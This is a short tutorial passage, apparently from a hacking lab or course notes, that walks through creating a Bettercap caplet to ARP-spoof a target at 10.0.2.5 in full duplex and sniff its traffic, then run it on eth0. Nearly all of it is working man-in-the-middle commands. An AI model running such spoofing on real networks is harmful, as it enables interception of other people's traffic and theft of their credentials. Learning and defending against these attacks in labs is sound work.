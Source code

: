 1. Create the caplet:<br><br>
`touch spoof.cap`

2. Add the commands and save it :<br><br>
`nano spoof.cap`

```
net.probe on
set arp.spoof.fullduplex true 
set arp.spoof.targets 10.0.2.5
arp.spoof on
set net.sniff.local true
net.sniff on
```
As you can see is the same commands in order that you used previously.

3. Start the **Bettercap** using the spoof **Caplet** that you created:<br><br>
`bettercap -iface eth0 -caplet spoof.cap`
